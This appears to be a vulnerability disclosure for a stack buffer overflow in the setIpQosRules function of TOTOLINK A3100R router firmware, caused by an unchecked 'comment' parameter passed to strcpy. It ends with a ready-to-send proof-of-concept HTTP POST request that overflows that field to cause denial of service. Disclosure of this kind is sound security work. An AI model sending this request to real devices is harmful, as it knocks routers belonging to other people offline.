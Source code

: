 # firewall.so setIpQosRules stack buffer overflow

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

## Description:

The setIpQosRules function in the firewall.so module does not filter the "comment" parameter, and a stack overflow occurs when strcpy is performed

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

## Analyse:
The program reads a user inputed named "comment" in users's POST request and uses the input immediately,without checking it's length ,which can lead to buffer overflows bugs in the following strcpy function.
![](./img/11.png)
![](./img/6.png)
![](./img/7.png)

So by Posting proper data to topicurl:"setting/setIpQosRules",the attacker can easily perform a Deny of service Attack.

## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 363

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/firewall/qos.asp?timestamp=1649994888415

Cookie: SESSION_ID=2:1588588113:2



{"topicurl":"setting/setIpQosRules","ipStart":"192.168.0.22","ipEnd":"192.168.0.22","upBandwidth":"2222","dwBandwidth":"2222","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb"}
```
![](./img/9.png)
![](./img/8.png)


